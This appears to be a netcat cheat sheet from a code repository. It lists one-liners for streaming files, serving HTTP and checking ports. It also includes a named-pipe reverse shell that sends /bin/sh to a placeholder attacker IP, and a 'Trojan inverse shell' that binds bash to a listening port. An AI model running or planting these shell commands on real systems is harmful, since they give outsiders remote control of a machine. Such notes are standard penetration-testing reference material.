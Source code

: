# netcat

### Netcat without -e

A lot of machines have netcat installed (example macosx) but it's not usable for reverse shells. However, with this it becomes useable.

```sh
mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc <ATTACKER IP> <PORT> 1>/tmp/backpipe
```

### mp3 streaming
```sh
nc -l -p 2000 < song.mp3
```

### netcat - receive tar archive remotely
```sh
nc -l $PORT | pv -b > archive.tar.bz2
```

### One command line web server on port 80 using nc (netcat)
```sh
nc -kl 5432 -c 'echo -e "HTTP/1.1 200 OK\r\n$(date)\r\n\r\n";echo "<p>How are you today?</p>"'
```

### determine if tcp port is open
```sh
nc <ip> <port> -v
```

### Sharing a file through http 80 port:
```sh
nc -w 5 -v -l -p 80 < file.ext
```

### Stream and copy a video from lan
```sh
nc HOST PORT | tee movie.mp4 | mplayer -
```

### Trojan inverse shell
```sh
nc -l -p 2000 -e /bin/bash
```

### determine if tcp port is open
```sh
nc -zw2 www.example.com 80 && echo open
```
